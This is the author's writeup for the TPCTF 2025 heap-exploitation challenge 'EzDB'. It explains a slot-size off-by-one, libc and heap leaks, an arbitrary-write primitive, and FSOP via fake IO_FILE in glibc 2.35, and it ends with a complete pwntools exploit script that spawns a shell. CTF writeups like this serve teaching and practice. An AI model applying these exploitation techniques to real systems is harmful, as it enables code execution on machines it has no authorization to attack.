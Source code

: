 ```yaml
---
date: 2025-03-09 10:21:56
layout: post
title: TPCTF 2025 EzDB Author's Writeup
subtitle: 
description: >-
    Had given an arbituary write primitive... So be satisfied, not a difficult problem
image: >-
  /assets/img/uploads/rainy_street.jpg
optimized_image: >-
  /assets/img/uploads/rainy_street.jpg
category: ctf
tags:
  - pwn
  - tpctf 2025
  - heap exploitation
author: rosayxy
paginate: true
---
```

Rosayxy is the author of the TPCTF pwn challenge of EzDB, here is the writeup.     

## overview
This challenge is mainly inspired by the DB course of THU CST. Some resources of the course is [here](https://github.com/thu-db)    

This challenge implements a table page to store stuff, with such basic functionalities as creating and removing a page, creating and editing entries in the page and such.     

## vulnerability
At function `TablePage::InsertRecord`, it checks the following condition `TablePage::GetFreeSpaceSize(this) < (unsigned __int64)(Size + 4LL)`, whereas the `TablePage::GetFreeSpaceSize` is defined as below   
```c
__int64 __fastcall TablePage::GetFreeSpaceSize(TablePage *this)
{
  return *((_QWORD *)this + 2) - *((_QWORD *)this + 1) + 1LL;
}
```
Actually, in the source code `*((_QWORD *)this + 2)`, `*((_QWORD *)this + 1)` are marked respectively as the higher and lower pointer of this page. We see its intialization below:    

```c
TablePage *__fastcall TablePage::Init(TablePage *this)
{
  TablePage *result; // rax

  *(_QWORD *)this = malloc(0x400uLL);
  *((_QWORD *)this + 1) = *(_QWORD *)this;
  *((_QWORD *)this + 2) = *(_QWORD *)this + 0x400LL;
  result = this;
  *((_QWORD *)this + 3) = *(_QWORD *)this;
  return result;
}
```
So we get to know the GetFreeSize should be returning `*((_QWORD *)this + 2) - *((_QWORD *)this + 1)`. When we have `TablePage::GetFreeSpaceSize(this) == (unsigned __int64)(Size + 4LL)`(the 4 is the slot size here), we have an overflow into the highest byte of the newest slot, which is defined as below in the source code    
```c
struct Slot{
    unsigned short offset;
    unsigned short size;
};
```
So we can modify the size into a large value of the newest slot. This gives us a heap oob read & write with a big-enough-for-everything offset using the `TablePage::EditRecord` and `TablePage::GetRecord` functions.    

## leak
We can stuff 7 pages into tcache bin first, when we free the 8th page, it goes into the unsorted bin and the fd and bk pointers are libc-related addresses. We can leak the libc base address from it.    
The TablePage object's page_, lower_, upper_ pointers are all heap addresses. We can leak the heap base address here.    

## exploit
### convert to arbituary write
We can convert a heap-arbituary-write primitive to an arbituary-write primitive by editing the upper_ pointer of a TablePage object at a higher heap address. We edit the high_ pointer to an arbituary address plus some offset. Then we can call `TablePage::InsertRecord` function of that TablePage object to write the content to the arbituary address.    

### FSOP
Because it is glibc-2.35, we choose to write _IO_list_all to a heap address and construct a fake IO_file object at the address.     
The construct the fake IO_file using the idea of [house of apple2](https://bbs.kanxue.com/thread-273832.htm), then we return from the main function to trigger the FSOP, and guess what? We get the shell!    

## exp
Note: I was having a fascinating Shakespeare elective course and multitasking when writing the exp. At first, I didn't realize that the overflow in the page would overflow into the high byte rather than the low byte of the slot's size, so some parts of the exp might be a bit messy. My apologies :(     

```py
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
p = process("./db")
# p = remote("61.147.171.105",52702)
libc = ELF("./libc.so.6")
def create_table(idx):
    p.recvuntil(">>> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def remove_table(idx):
    p.recvuntil(">>> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def insert_record(idx,len,content):
    p.recvuntil(">>> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

def get_record(idx,slot_id):
    p.recvuntil(">>> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))

def edit_record(idx,slot_id,len,content):
    p.recvuntil(">>> ")
    p.sendline("5")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

# leak libc first
# 整8个塞 tcache 里面吧
for i in range(9):
    create_table(i)
for i in range(203):
    insert_record(0,1,"A")
#insert vuln record
insert_record(0,6,b"\x02"*6)
for i in range(8):
    remove_table(8-i)

get_record(0,203)
p.recvline()
leaks = p.recv(0x140)
# 0x1d 0x106
heap_leak = u64(leaks[0xf2:0xf2 + 8])
print(hex(heap_leak))
libc_leak = u64(leaks[0x11a:(0x11a + 8)])
print(hex(libc_leak))
heap_base = heap_leak - 0x12320
# 0x7fbd726c7ce0 - 0x7fbd724ad000
libc_base = libc_leak - 0x21ace0
print(hex(heap_base))
print(hex(libc_base))
# 把所有堆块都占住 然后改 page_ 指针
for i in range(8):
    create_table(i+1)
# 占一个堆块写 fake IO_file
fake_io_addr = heap_base + 0x12730 +0x430 - 0xf0 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ca60) # lock
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x216f40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)+p64(0) # 0xf0
# 直接溢出改 page_ 指针
insert_record(1,0xf0,fake_io_file)

payload = b"\x02"*6+b"a"*203 + p64(0)+p64(0x31)+p64(heap_base + 0x12320)*2+p64(libc_base + libc.sym["_IO_list_all"]+0x8)+p64(heap_base + 0x12320)
edit_record(0,203,0x140,payload)
insert_record(8,0x8,p64(fake_io_addr))

# trigger!
p.recvuntil(">>> ")
p.sendline("6")

p.interactive()
```

## conclusion
Thank everyone for participating in the TPCTF game! Spring is coming and hope you have a nice time!    
[Here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025/tree/main) is the source code   